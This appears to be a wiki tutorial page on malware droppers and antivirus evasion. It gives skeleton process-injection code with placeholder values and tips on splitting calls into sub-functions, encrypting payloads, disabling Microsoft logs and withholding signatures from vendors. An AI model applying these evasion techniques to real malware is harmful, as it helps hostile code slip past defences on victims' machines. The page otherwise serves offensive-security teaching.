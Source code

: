 ```yaml
---
authors: Jenaye, ShutdownRepo
---
```


# 🛠️ Dropper

> [!WARNING]
> This is a work-in-progress. It's indicated with the 🛠️ emoji in the page name or in the category name. Wanna help? Please reach out to me: [@_nwodtuhs](https://twitter.com/_nwodtuhs)

As for the loader, it is also possible to make a simple one, but the more complex it is, the more likely it is that the anti-virus will not see it

Knowing that an anti-virus compares the signature of our program and the signature of the functions with those of the malware, it is up to the attacker to use his imagination to disguise his program.

In the example below, the anti-virus will raise an alert:

```cpp
static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}
```

But, if a sub function is added to create a thread as follow:

```cpp
static void CRT()
{
 IntPtr hThread = CreateRemoteThread(MyTests, xxxxxx);
}

static void Main(string[] args)
{
 byte[] buf = new byte[xxx]{ 0x27, 0x3B, 0x38, 0x7D, 0xF4, 0x44 }
 IntPtr MyTests = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
 IntPtr addr = VirtualAllocEx(MyTests, IntPtr.Zero, (uint)buf.Length, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
 WriteProcessMemory(MyTests,xxxxx);
 CRT()
}
```

By using the previous source code the anti-virus will have more difficulty to understand what is happening. The Russian doll technique can be a good trick to hide a malicious function.

> [!CAUTION]
> The fact of compiling several times will not give us a new signature, only the modification of the code has an impact

> [!CAUTION]
> Once the binary is ready to be executed, access to the internet should be cut in the test environment in order not to send the signature of the bypass to Microsoft or to the editor.

To optimize the probability to bypass the protections we will have to combine several techniques, for example encrypt the active load, de-activate Microsoft logs or choose a special way to inject the virus (cf [process injection](process-injection.md)). 
